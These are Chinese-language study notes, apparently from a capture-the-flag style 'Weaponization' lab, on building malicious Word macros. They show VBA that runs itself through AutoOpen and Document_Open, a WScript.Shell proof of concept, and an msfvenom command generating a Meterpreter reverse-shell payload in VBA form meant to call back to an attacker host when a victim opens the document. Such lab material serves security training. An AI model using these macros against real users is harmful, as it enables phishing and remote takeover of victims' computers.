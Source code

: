 VBA 代表 Visual Basic for Applications，是 Microsoft 为 Microsoft Word、Excel、PowerPoint 等 Microsoft 应用程序实现的一种编程语言。VBA 编程允许自动执行用户与 Microsoft Office 应用程序之间几乎所有键盘和鼠标交互的任务。
宏是 Microsoft Office 应用程序，其中包含以 Visual Basic for Applications (VBA) 编程语言编写的嵌入式代码。它用于创建自定义函数，通过创建自动化流程来加速手动任务。 VBA 的功能之一是访问 Windows 应用程序编程接口 (API) 和其他低级功能。
现在创建一个新的空白 Microsoft 文档来创建我们的第一个宏。目标是讨论该语言的基础知识并展示如何在打开 Microsoft Word 文档时运行它。首先，我们需要通过选择“视图”→“宏”来打开 Visual Basic 编辑器。宏窗口显示在文档中创建我们自己的宏。
![[Pasted image 20240507170138.png]]
在宏名称部分，我们选择将宏命名为 THM。请注意，我们需要从列表 Document1 中的宏中进行选择，最后选择创建。接下来，Microsoft Visual Basic for Application 编辑器显示我们可以在哪里编写 VBA 代码。让我们尝试显示一个消息框，其中包含以下消息：欢迎来到武器化室！。我们可以使用 MsgBox 函数来做到这一点，如下所示：
```javascript
Sub THM()
  MsgBox ("Welcome to Weaponization Room!")
End Sub
```
按 F5 或 Run → Run Sub/UserForm 运行宏.
现在，为了在文档打开后自动执行 VBA 代码，我们可以使用内置函数，例如 AutoOpen 和 Document_open。请注意，我们需要指定文档打开后需要运行的函数名称，在我们的例子中是 THM 函数。
```javascript
Sub Document_Open()
  THM
End Sub

Sub AutoOpen()
  THM
End Sub

Sub THM()
   MsgBox ("Welcome to Weaponization Room!")
End Sub
```
需要注意的是，为了使宏起作用，我们需要将其保存为启用宏的格式，例如.doc和docm。现在，让我们将文件另存为 Word 97-2003 模板，其中通过转到文件 → 保存 Document1 并保存为类型 → Word 97-2003 文档启用宏，最后保存。
让我们关闭保存的Word文档。如果我们重新打开文档文件，Microsoft Word 将显示一条安全消息，指示宏已被禁用，并为我们提供启用它的选项。让我们启用它并继续检查结果。
**![[Pasted image 20240507170240.png]]
![[Pasted image 20240507170250.png]]
现在编辑 Word 文档并创建一个宏函数来执行 calc.exe 或任何可执行文件作为概念证明，如下所示，
```javascript
Sub PoC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```
为了详细解释代码，我们使用 Dim 关键字将有效负载变量声明为字符串。使用payload =“calc.exe”，我们指定有效负载名称，最后使用CreateObject(“Wscript.Shell”).Run有效负载，我们创建一个Windows脚本主机(WSH)对象并运行有效负载。请注意，如果要重命名函数名称，则也必须在 AutoOpen() 和 Document_open() 函数中包含函数名称。
值得一提的是，我们可以将 VBA 与之前介绍的方法（例如 HTA 和 WSH）结合起来。 VBA/宏本身不会绕过任何检测。

我们使用 msfvenom 创建 meterpreter 有效负载。我们需要指定 PayloadLHOST 和 LPORT，它们与 Metasploit 框架中的内容相匹配。请注意，我们将有效负载指定为 VBA 以将其用作宏。
```
user@AttackBox$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload [-] No arch selected, selecting arch: x86 from the payload No encoder specified, outputting raw payload Payload size: 341 bytes Final size of vba file: 2698 bytes
```
导入时请注意，需要进行一项修改才能使其工作。输出将在 MS Excel 工作表上运行。因此，将 Workbook_Open() 更改为 Document_Open() 以使其适合 MS Word 文档。
一旦恶意 MS Word 文档在受害计算机上打开，我们应该会收到反向 shell。
